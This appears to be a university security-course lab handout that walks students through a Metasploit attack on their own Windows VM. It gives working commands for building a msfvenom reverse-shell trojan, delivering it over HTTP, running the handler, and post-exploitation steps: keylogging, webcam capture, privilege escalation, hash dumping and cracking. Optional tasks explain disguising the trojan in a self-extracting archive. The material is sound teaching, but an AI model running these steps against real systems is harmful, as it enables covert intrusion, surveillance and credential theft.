 # its250
Online resources and examples

## Lab07: Penetration test

### 1. Description
Install Metasploit framework on Ubuntu then launch it from Ubuntu, carry out a cyber attack on the Windows server VM to get ultimate control.

**Prerequisite**

* Both Windows server VM and the Ubuntu VM are used
* Install Metasploit framework on Ubuntu

You may follow this [installation video](https://youtu.be/qKudXchmnWc) to install Metasploit framework on Ubuntu.

1. Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Ubuntu.
   ```bash
   # 0. Update and upgrade Ubuntu
   sudo apt update -y && sudo apt upgrade -y
   # 1. Disable anti-virus software (default)
   # 2. Disable firewalls (default)
   # 3. Install with root priviledges
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall 
   chmod 755 msfinstall
   sudo ./msfinstall
   ```
2. (Optional) Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Windows.
   ```batch
   # 1. Disable anti-virus software (Done in Lab03)
   # 2. Disable firewalls (Done in Lab03)
   # 3. Download metaspoit framework windows installer, then in nstall with Administrator account.
   ```
3. **Note** : by default, Ubuntu firewall is disabled, somehow, it may be enabled accidently, TURN IT OFF.
   ```batch
   sudo ufw stutaus
   sudo ufw disable
   ```

### 2. Tasks (100%)

*Note: replace VM IPs with yours in these tasks*

1. (5%) Find the IP addresses of your Windows server VM and Ubuntu VM, make sure they can ping each other
2.  (5%) On Ubuntu, create a trojan program with msfvenom
    ```bash
    # Replace the Ubuntu_IP with yours
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=Ubuntu_IP LPORT=12345 -f exe > trojan.exe
    ```
3. (5%) On Ubuntu, host trojon.exe with Python built-in SimpleHTTPServer
   ```bash
   # Run the command below from the folder contains trojan.exe
   sudo python3 -m http.server 80
   ```
4. (10%) On Ubuntu, starting a Command-and-Control (C&C) Server
   ```bash
   # Inside msfconsole, replace the Ubuntu_IP with yours
   use multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST Ubuntu_IP
   set LPORT 12345
   # 1. one-time exploit
   exploit

   # 2. continuous exploit
   set exitonsession false
   exploit -j
   ```
5. (5%) On Windows, open a web browser, download http://Ubuntu_IP/trojan.exe, 
6. (5%) On Windows run trojan.exe and ignore any warnings.
7. (5%) On Ubuntu, if everything works, a meterpreter session should open.
8. (10%) Explore and use the meterpreter shell
9. (10%) Migrate to a different process inside meterpreter
   ```bash
   # show a list of processes
   ps
   # migrate to winlogon process
   migrate -N explorer.exe
   # migration is unreliabe. If it failed, restart Windows VM, repeat step 6-9 until succeed.
   ```
10. (20%, each 4%) Post-exploitation. Now the Windows VM is under control. Play with the following meterpreter commands.
   ```bash
   # 1. take a screenshot of the victim's desktop
   screenshot
   # 2. capture key strokes
   # 2.1 start capturing key stroke in the victim machine
   keyscan_start
   # 2.2 On the victim machine, open notepad and type something
   # 2.3 Inside meterpreter, dump the captured key strokes
   keyscan_dump
   # 3. (Optional) Take a phone with the webcam
   webcam_snap
   # 4. Get a Windows command prompt on the victim machine
   shell
   # exit the windows command prompt above
   exit
   # 5. Check network connections on the victim machine from meterpreter
   netstat
   ```
11. (20%) Cracking and changing Windows password.
    1. (10%) Dump the hash values of all saved passwords of all windows users, then crack with John the Ripper.
    ```bash
    # Inside meterpreter
    # 1. Check the priviledge that meterpreter is currently in
    getuid
    # 2. Escalate priviledge
    use priv
    getsystem
    getuid
    # 3. dump the hashes
    run post/windows/gather/hashdump # save the result in a text file userhashes.txt
    # 4. crack the hashes, download hashcat.7z from tools folder,
    # or from https://github.com/attackdebris/hashcat-2.0 and extract it
    # hashes.txt contains only the hashes of userhashes.txt
    hashcat-cli64.bin -m 1000 -a 0 -o winpass.txt --remove hashes.txt rockyou.txt 
    ```
    1. (10%) Change Windows users' password. Use a user found above, replace oldpass and newpass with yours
    ```bash
    # Inside msf, failed somehow. Changing passwords can be done in Task 10.4 above using net users command
    msf > use post/windows/manage/change_password
    msf post(change_password) > set smbuser user_name
    msf post(change_password) > set old_password oldpass
    msf post(change_password) > set new_password newpass
    msf post(change_password) > set session 1
    msf post(change_password) > exploit
    ```

### 3. Review questions (Optional)
1. Hide trojan.exe in a self-extract archive.
   1. Download an image as a cover image.
   2. With WinRAR, create a self-extract archive of the cover image and trojan.exe
   3. Configure run after extraction to be: trojan.exe then the cover image.
   4. Download another harmless-look image, convert it into an icon on [icoconvert](https://icoconvert.com/), then use this icon as the icon of the self-extract archive.
2. Use Metasploit Framework GUI - Armitage
   1. Install Java JDK
      ```bash
      sudo apt install  default-jdk
      ```
   2. Download [Armitage](http://www.fastandeasyhacking.com) and extract it.
   3. Init Metasploit Framework database and load the MSGRPC Plugin
      ```bash
      msfdb reinit
      msfconsole
      msf > load msgrpc # note down the user name and password used for armitage
      ```
    4. Run Armitage and connect to the msfrpc running above
      ```bash
      export MSF_DATABASE_CONFIG="/home/$USER/.msf4/database.yml"
      ./armitage
      ```
    5. Enjoy Armitage

**Demo video**

* [Lab07: Penetration test](https://youtu.be/DiGyw79HhlM)

## Reference
* [Running a simple HTTP web server with one terminal command and python](https://linuxconfig.org/running-a-simple-http-web-server-with-one-terminal-command-and-python)
  * [Share Files Using Lightweight Http Servers in Linux](https://linuxhint.com/share_files_lightweight_http_server/)
* [Metasploit](https://docs.rapid7.com/metasploit/quick-start-guide)
  * [Installing Metasploit](https://docs.rapid7.com/metasploit/installing-metasploit-pro)
  * [Restarting Metasploit Services](https://docs.rapid7.com/metasploit/restarting-metasploit-services)
  * [Uninstalling Metasploit](https://docs.rapid7.com/metasploit/uninstalling-metasploit)
* [Installing Metasploit Penetration Testing Framework](https://fedoraproject.org/wiki/Metasploit_Penetration_Testing_Framework)
  * [Metasploit Postgres Setup](https://fedoraproject.org/wiki/Metasploit_Postgres_Setup)
* [Metasploit Framework](https://docs.rapid7.com/metasploit/msf-overview)
* [Creating Infectious Media with Metasploit](https://samsclass.info/123/proj10/p4msf.htm)
* [Offensive Msfvenom: From Generating Shellcode to Creating Trojans](https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)
  * [Hide Payloads Behind Images](https://medium.com/@chamo.wijetunga/hide-payloads-behind-images-and-hacking-windows-fb82cf2f0e7c)
    * [7z examples](https://www.dotnetperls.com/7-zip-examples)
  * [Create malicious PDF](https://fareedfauzi.github.io/blog-post/Create-malicious-pdf/)
  * [How to Embed (Hide) a Backdoor into a File (pdf, exe, etc...)](http://dan3lmi.blogspot.com/2019/01/how-to-embed-hide-backdoor-into-file.html)
* [Lab: Hacking an Android Device with MSFvenom](https://resources.infosecinstitute.com/topic/lab-hacking-an-android-device-with-msfvenom/)
* [Autorun.inf Maker](http://www.ashzfall.com/products/autorun/index.html)
  * [How do I test autorun.inf files without wasting CD's?](http://www.ashzfall.com/products/autorun/autorunfloppy.html)
  * [How to Auto-Run Windows Programs When You Plug In a USB Drive](https://www.howtogeek.com/326049/how-to-auto-run-windows-programs-when-you-plug-in-a-usb-drive/)
* [meterpreter basics](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
  * [Quick Meterpreter and Metasploit tutorial - Stealing hashes and passwords, Keyloggers, Webcams and other post-exploitation modules](http://www.ethicalpentest.com/2018/03/meterpreter-metasploit-tutorial-part2.html)
  * [Post Exploitation for Remote Windows Password](https://www.hackingarticles.in/post-exploitation-remote-windows-password/)
  * [Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
  * [Cracking Windows Password Hashes with Hashcat](https://samsclass.info/123/proj14/123p12winhash.htm)
    * [LM, NTLM, Net-NTLMv2, oh my!](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)
  * [Meterpreter basics practice](https://www.utc.edu/center-academic-excellence-cyber-defense/pdfs/4660-lab6.pdf)
  * [Armitage](http://www.fastandeasyhacking.com)
    * [source](https://github.com/rsmudge/armitage)